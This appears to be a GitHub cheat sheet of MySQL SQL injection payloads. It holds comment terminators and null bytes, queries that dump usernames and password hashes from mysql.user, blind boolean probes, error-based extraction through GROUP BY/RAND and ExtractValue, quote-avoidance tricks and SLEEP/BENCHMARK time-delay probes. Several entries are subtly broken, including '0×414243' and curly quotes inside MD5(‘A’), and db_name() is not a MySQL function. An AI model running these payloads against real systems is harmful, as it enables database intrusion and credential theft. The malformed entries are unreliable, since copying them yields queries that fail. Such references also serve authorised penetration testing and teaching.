 # SQL Injection Cheat Sheet MySQL 

Inspired by
[SQL-Injection-Cheat-Sheet-MySQL](https://blog.safebuff.com/2016/04/11/SQL-Injection-Cheat-Sheet-MySQL/) and 
[SecurityIdiots](http://www.securityidiots.com/Web-Pentest/SQL-Injection/)

- [SQL Injection Cheat Sheet MySQL](#SQL-Injection-Cheat-Sheet-MySQL)
    - [Comments](#Comments)
    - [Version](#Version)
    - [User details](#User-details)
    - [Database details](#Database-details)
    - [Database credentials](#Database-credentials)
    - [Server details](#Server-details)
    - [Table Name](#Table-Name)
    - [Find Tables From Column Name](#Find-Tables-From-Column-Name)
    - [Columns Names](#Columns-Names)
    - [Bitwise AND](#Bitwise-AND)
    - [No Quotes](#No-Quotes)
    - [String Concatenation](#String-Concatenation)
    - [If Statement](#If-Statement)
    - [Avoiding Quotes](#Avoiding-Quotes)
    - [Case Statement](#Case-Statement)
    - [Conditionals](#Conditionals)
    - [Time-delay](#Time-delay)
    
    
    
    
## SQL Injection Cheat Sheet MySQL

### Comments

```
--	 #	MySQL Linux Style            
--+      #	MySQL Windows Style          
#	 #	Hash (URL encode while use)  
--+-	 #	SQL Comment                  
;%00	 #	Null Byte                    
`        #      Backtick   
/*
```

### Version

```
SELECT VERSION();
SELECT @@VERSION;
SELECT @@GLOBAL.VERSION;
```

### User details

```
SELECT user()
SELECT current_user()
SELECT current_user
SELECT system_user()
SELECT session_user()
SELECT user,password FROM mysql.user;   # list Users
```

### Database details

```
SELECT db_name();
SELECT database();
SELECT schema_name FROM information_schema.schemata;
```

### Database credentials

```
SELECT host, user, password FROM mysql.user;
```

### Server details

```
SELECT @@hostname;
```

### Table Name

```
SELECT table_name FROM information_schema.tables;
SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema';
SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10; #all tables
AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables > 'A'; #Blind
and 0<(select count(*) from xxx) and 1<2    #盲注爆表

AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),FLOOR(RAND(0)*2)))
(@:=1)||@ GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),!@) HAVING @||MIN(@:=0);
AND ExtractValue(1, CONCAT(0x5c, (SELECT table_name FROM information_schema.tables LIMIT 1)));-- Available in 5.1.5
```

### Find Tables From Column Name

```
SELECT table_schema, table_name FROM information_schema.columns WHERE column_name = 'columnname';#find table which have a column called 'columnname'
and 0<(select count(xxx) from tbl_user) and 1<2 ＃盲注爆字段
```

### Columns Names

```
SELECT column_name FROM information_schema.columns WHERE table_name = 'tablename';
SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema';
```

### Bitwise AND

```
SELECT 6 & 2; # returns 2
SELECT 6 & 1; # returns 0
```

### No Quotes 

```
CONCAT(CHAR(97), CHAR(98), CHAR(99))
```

### String Concatenation

```
CONCAT(foo, bar)
```

### If Statement

```
SELECT if(1=1,'foo','bar'); -- returns 'foo'
```

### Avoiding Quotes

```
SELECT 0×414243; # returns ABC
```
### Case Statement

```
SELECT CASE WHEN (1=1) THEN 'A' ELSE 'B' END; # returns A
```

### Conditionals

```
SELECT IF(1=1,'true','false');
```

### Time-delay

```
SELECT BENCHMARK(1000000,MD5(‘A’));
SELECT SLEEP(5); # >= 5.0.12
```


